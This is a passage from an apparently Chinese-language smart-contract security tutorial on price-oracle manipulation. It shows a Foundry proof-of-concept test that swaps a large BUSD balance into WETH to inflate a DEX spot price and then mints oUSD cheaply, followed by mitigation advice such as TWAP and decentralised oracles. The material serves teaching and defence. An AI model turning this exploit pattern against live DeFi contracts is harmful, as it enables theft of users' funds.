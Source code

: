 ```solidity
    //forge test --match-test  testOracleAttack  -vv
    function testOracleAttack() public {
        // 攻击预言机
        // 0. 操纵预言机之前的价格
        uint256 priceBefore = ousd.getPrice();
        console.log("1. ETH Price (before attack): %s", priceBefore);
        // 给自己账户 1000000 BUSD
        uint256 busdAmount = 1_000_000 * 10e18;
        deal(BUSD, alice, busdAmount);
        // 2. 用busd买weth，推高顺时价格
        vm.prank(alice);
        busd.transfer(address(this), busdAmount);
        swapBUSDtoWETH(busdAmount, 1);
        console.log("2. Swap 1,000,000 BUSD to WETH to manipulate the oracle");
        // 3. 操纵预言机之后的价格
        uint256 priceAfter = ousd.getPrice();
        console.log("3. ETH price (after attack): %s", priceAfter);
        // 4. 铸造oUSD
        ousd.swap{value: 1 ether}();
        console.log("4. Minted %s oUSD with 1 ETH (after attack)", ousd.balanceOf(address(this)) / 10e18);
    }

    // Swap BUSD to WETH
    function swapBUSDtoWETH(uint256 amountIn, uint256 amountOutMin) public returns (uint256 amountOut) {
        busd.approve(address(router), amountIn);

        address[] memory path;
        path = new address[](2);
        path[0] = BUSD;
        path[1] = WETH;

        uint256[] memory amounts = router.swapExactTokensForTokens(amountIn, amountOutMin, path, alice, block.timestamp);

        // amounts[0] = BUSD amount, amounts[1] = WETH amount
        return amounts[1];
    }
}
```

## 漏洞修复方案

- 不要使用流动性差的池子做价格预言机。
- 不要使用现货/瞬时价格做价格预言机，要加入价格延迟，例如时间加权平均价格（TWAP）。
- 使用去中心化的预言机。
- 使用多个数据源，每次选取最接近价格中位数的几个作为预言机，避免极端情况。
- 仔细阅读第三方价格预言机的使用文档及参数设置。

# 闪电贷攻击
